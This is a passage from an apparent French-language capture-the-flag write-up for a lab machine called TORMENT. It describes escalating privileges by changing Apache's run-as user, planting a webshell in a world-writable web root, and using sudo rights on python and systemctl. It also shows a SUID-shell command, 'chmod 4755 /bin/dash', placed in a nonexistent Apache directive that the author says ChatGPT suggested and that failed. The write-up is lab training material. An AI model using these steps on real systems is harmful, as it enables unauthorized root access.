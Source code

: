 Les deux sont en lecture seule donc c'est une impasse.

Pour revenir à Apache, il y a une directive pour choisir quel utilisateur fait tourner les process. Les lignes par défaut sont les suivantes :

```apache
# These need to be set in /etc/apache2/envvars
User ${APACHE_RUN_USER}
Group ${APACHE_RUN_GROUP}
```

J'ai donc tenté de changer ça par `root`. Additionnellement, ChatGPT m'a parlé d'une directive `System` pour exécuter des commandes.

Je suis donc parti sur cette config :

```apache
# These need to be set in /etc/apache2/envvars
User root
Group root
System "chmod 4755 /bin/dash"
```

Mais après reboot de la machine, Apache était en erreur.
Il aura fallu m'en tenir à la config suivante :

```apache
# These need to be set in /etc/apache2/envvars
User qiu
Group qiu
```

Après redémarrage, on a le fonctionnement attendu :

```console
patrick@TORMENT:~$ ps aux | grep apache
root       656  0.4  2.5 288220 26308 ?        Ss   21:05   0:00 /usr/sbin/apache2 -k start
qiu        737  0.0  0.8 288164  8540 ?        S    21:05   0:00 /usr/sbin/apache2 -k start
qiu        738  0.0  0.7 288244  7976 ?        S    21:05   0:00 /usr/sbin/apache2 -k start
qiu        739  0.0  0.7 288244  7976 ?        S    21:05   0:00 /usr/sbin/apache2 -k start
qiu        740  0.0  0.7 288244  7976 ?        S    21:05   0:00 /usr/sbin/apache2 -k start
qiu        741  0.0  0.7 288244  7976 ?        S    21:05   0:00 /usr/sbin/apache2 -k start
qiu        742  0.0  0.7 288244  7976 ?        S    21:05   0:00 /usr/sbin/apache2 -k start
patrick   1064  0.0  0.0  12784   948 pts/0    S+   21:06   0:00 grep apache
```

L'exploitation est possible grace au fait que la racine web est world-writable :

```console
patrick@TORMENT:~$ ls -ld /var/www/html/
drwxrwxrwx 2 www-data www-data 4096 Jan  1  2019 /var/www/html/
```

Donc on peut simplement placer un webshell et l'appeler pour obtenir un shell en tant que `qiu`.
À partir de ce compte passer root s'annonce aisé :

```console
qiu@TORMENT:~$ sudo -l
Matching Defaults entries for qiu on TORMENT:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User qiu may run the following commands on TORMENT:
    (ALL) NOPASSWD: /usr/bin/python, /bin/systemctl
```
